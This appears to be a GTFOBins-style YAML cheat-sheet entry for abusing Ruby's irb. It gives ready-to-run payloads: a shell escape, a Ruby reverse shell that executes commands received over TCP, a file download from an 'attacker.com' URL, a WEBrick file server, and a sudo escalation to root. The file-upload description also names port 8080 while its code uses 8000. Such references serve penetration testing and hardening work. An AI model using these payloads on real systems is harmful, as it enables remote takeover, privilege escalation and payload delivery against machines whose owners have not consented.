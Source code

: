 ```yaml
---
functions:
  shell:
    - code: |
        irb
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb 
        require 'socket'; exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        export FILE=file_to_save
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
```

